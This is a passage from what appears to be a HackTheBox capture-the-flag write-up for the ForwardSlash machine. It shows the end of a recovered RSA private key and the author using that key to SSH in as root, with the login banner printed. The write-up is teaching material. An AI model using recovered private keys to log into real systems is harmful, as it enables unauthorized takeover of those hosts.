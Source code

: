 ```
vROXZiQdmWCPEmwuE0aDj4HqmJvnIx9P4EAcTWuY0LdUU3zZcFgYlXiYT0xg2N1p
MIrAjjhgrQ3A2kXyxh9pzxsFlvIaSfxAvsL8LQy2Osl+i80WaORykmyFy5rmNLQD
Ih0cizb9AoGBAP2+PD2nV8y20kF6U0+JlwMG7WbV/rDF6+kVn0M2sfQKiAIUK3Wn
5YCeGARrMdZr4fidTN7koke02M4enSHEdZRTW2jRXlKfYHqSoVzLggnKVU/eghQs
V4gv6+cc787HojtuU7Ee66eWj0VSr0PXjFInzdSdmnd93oDZPzwF8QUnAoGBAPhg
e1VaHG89E4YWNxbfr739t5qPuizPJY7fIBOv9Z0G+P5KCtHJA5uxpELrF3hQjJU8
6Orz/0C+TxmlTGVOvkQWij4GC9rcOMaP03zXamQTSGNROM+S1I9UUoQBrwe2nQeh
i2B/AlO4PrOHJtfSXIzsedmDNLoMqO5/n/xAqLAHAoGATnv8CBntt11JFYWvpSdq
tT38SlWgjK77dEIC2/hb/J8RSItSkfbXrvu3dA5wAOGnqI2HDF5tr35JnR+s/JfW
woUx/e7cnPO9FMyr6pbr5vlVf/nUBEde37nq3rZ9mlj3XiiW7G8i9thEAm471eEi
/vpe2QfSkmk1XGdV/svbq/sCgYAZ6FZ1DLUylThYIDEW3bZDJxfjs2JEEkdko7mA
1DXWb0fBno+KWmFZ+CmeIU+NaTmAx520BEd3xWIS1r8lQhVunLtGxPKvnZD+hToW
J5IdZjWCxpIadMJfQPhqdJKBR3cRuLQFGLpxaSKBL3PJx1OID5KWMa1qSq/EUOOr
OENgOQKBgD/mYgPSmbqpNZI0/B+6ua9kQJAH6JS44v+yFkHfNTW0M7UIjU7wkGQw
ddMNjhpwVZ3//G6UhWSojUScQTERANt8R+J6dR0YfPzHnsDIoRc7IABQmxxygXDo
ZoYDzlPAlwJmoPQXauRl1CgjlyHrVUTfS0AkQH2ZbqvK5/Metq8o
-----END RSA PRIVATE KEY-----

```

### SSH

With this key, I can SSH as root into ForwardSlash:

```

root@kali# ssh -i ~/keys/id_rsa_forwardslash_root root@10.10.10.183
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr  6 14:56:56 UTC 2020

  System load:  0.01               Processes:            182
  Usage of /:   30.9% of 19.56GB   Users logged in:      1
  Memory usage: 21%                IP address for ens33: 10.10.10.183
  Swap usage:   0%
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

16 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Apr  5 20:49:44 2020 from 10.10.14.24
root@forwardslash:~#

```
